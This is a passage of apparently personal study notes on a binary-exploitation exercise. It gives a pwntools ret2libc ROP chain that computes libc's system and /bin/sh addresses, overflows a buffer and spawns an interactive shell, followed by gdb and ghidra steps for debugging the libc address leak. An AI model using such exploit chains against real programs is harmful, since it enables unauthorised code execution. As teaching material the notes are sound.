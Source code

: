 ```python
system_address = base_address_of_libc + system_offset # get the actual physical in memory address of system

"""
check if /bin/sh is in libc.so.6
`strings libc.so.6 | grep /bin/sh`, check there is
"""

"""
open libc.so.6 in ghidra (don't scan it)
search memory (press s), change Format from hex to string and search for /bin/sh
002b40fa
"""
bin_sh_offset = 0x2b40fa
bin_sh_address = base_address_of_libc + bin_sh_offset

# second ROPchain (payload), now that its waiting to receive input

second_payload = [
	junk, # get back to the offset, where we know our instruction pointer will end up going, buffer overflow
	p64(pop_rdi), # supply an argument to a function that we end up calling, system 
	p64(bin_sh_address), # string to /bin/sh
	p64(system_address), # passing that to system
]

# prepare our second payload
second_payload = b''.join(second_payload)
p.sendline(second_payload)


p.interactive()

```

Now we go back to ghidra in our vuln program, and look for the suspected function and click on return, and see the address `00400770`

Now we debug our ROPchain `gdb.attach(p)`
and set a breakpoint to that address `b *0x400770`
and `c` for continue
`si` to go the next instruction
until we reach `0x400914 <__libc_csu_init+0064> ret`
examine what is rdi `x/gx $rdi`
Realize something is wrong, check the leaked address and spot the error
with gdb, set breakpoint in main `b main` and continue `c`
See the leaked address (in our script), copy it and examine it in gdb `x 0x7f798ac7bf30`
it should say scanf (it does)
We are getting the leaked address but the actual address is wrong
The issue is that its getting to `__isoc99_scanf`and not `scanf`
using `readelf -s ./libc.so.6 | grep __isoc99_scanf`, (I get a result, but in the video no)
So we change from scanf to puts, and from puts to setbuf
